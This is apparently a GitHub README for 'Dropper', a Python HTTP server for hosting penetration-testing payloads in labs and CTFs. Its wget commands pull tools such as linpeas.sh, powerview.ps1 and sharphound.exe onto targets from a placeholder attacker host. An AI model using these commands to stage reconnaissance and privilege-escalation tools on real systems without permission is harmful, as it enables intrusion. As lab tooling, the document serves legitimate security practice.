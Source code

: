 # Dropper

**Dropper** is a minimal and practical HTTP file server for quickly sharing payloads and tools on LANs and lab environments.

It’s designed for red-teamers, pentesters, and CTF players who need a fast, reliable way to host tooling without juggling multiple servers or typing long paths.

## Why I built Dropper

I organize platform-specific payloads and tools into separate folders (`windows/, linux/`) so I can quickly access the right tools.

```
~/pentest/
├─ linux/
│  └─ linpeas.sh
└─ windows/
   └─ powerview.ps1
   └─ datacollectors/
       └─ sharphound.exe
```

During labs or CTFs, , I often need both Linux and Windows payloads in the same session. Without **Dropper**, this gets frustrating:

```
# Typing long paths for each payload

wget http://<ip>:<port>/linux/linpeas.sh
wget http://<ip>:<port>/windows/powerview.ps1
wget http://<ip>:<port>/windows/datacollectors/sharphound.exe

```
Long paths like these are annoying to type and easy to mistype. One missed character can break the command, slowing down your workflow — especially when you’re working on a live target or in timed labs.

### Dropper solves this problem by:

Serving a single root directory with subfolders for each platform (`windows/`, `linux/`, etc.), so all payloads are accessible from one place.

Providing a short `/drop/<filename>` URL for fast access. For example, instead of typing full paths:

```
wget http://<ip>:<port>/drop/linpeas.sh
wget http://<ip>:<port>/drop/powerview.ps1
wget http://<ip>:<port>/drop/sharphound.exe
```

Allowing optional Basic Auth to protect files in shared labs or teams, or `--no-auth` to quickly spin up the server in isolated lab environments.

This approach saves time, reduces typos, and makes fetching the right tool fast and reliable in high-pressure lab or CTF scenarios. With Dropper, you never have to juggle multiple servers or painfully long paths again.


## Quick start

### clone repo

```bash
git clone https://github.com/iqlipx/dropper.git

cd dropper
```
### Run the server 

**With authentication:**
```
export DROP_AUTH="user:pass"      # Linux/macOS
set DROP_AUTH=user:pass           # Windows CMD
$env:DROP_AUTH="user:pass"        # Windows PowerShell

python3 dropper.py --dir ~/pentest --host 0.0.0.0 --port 8000

```

**Without authentication (quick lab use):**
```
python3 dropper.py --dir ~/pentest --host 0.0.0.0 --port 8080 --no-auth
```
**Options:**

`--dir` : directory to serve (default: .)

`--host` : bind address (default: 127.0.0.1)

`--port` : port (default: 8000)

`--no-auth` : run without authentication (temporary; use only on trusted networks)

### Download payloads on targets

Use the /drop/<filename> shortcut instead of long paths:

```
wget http://<ip>:<port>/drop/linpeas.sh
wget http://<ip>:<port>/drop/powerview.ps1
wget http://<ip>:<port>/drop/sharphound.exe
```

###  Optional: Create a shortcut alias

```
# Add this line to ~/.bashrc or ~/.zshrc
alias dropper="python3 /full/path/to/dropper/dropper.py --dir ~/pentest --host 0.0.0.0 --port 8000 --no-auth"

# Then reload shell
source ~/.zshrc or ~/.bashrc

# Now you can start the server simply by:
dropper
```

### Tips for Labs / CTFs

**Keep files organized** – put payloads in folders that make sense so you can find them quickly.

**Use short URLs** – always use /drop/<filename> to avoid typing long paths.

**Ensure unique filenames** – don’t have two files with the same name, or the server will rename one to avoid collisions.

**Make a shortcut** – create a shell alias to start the server faster.

**No auth in safe environments** – use --no-auth if you are in a private lab, local network, or behind a VPN.
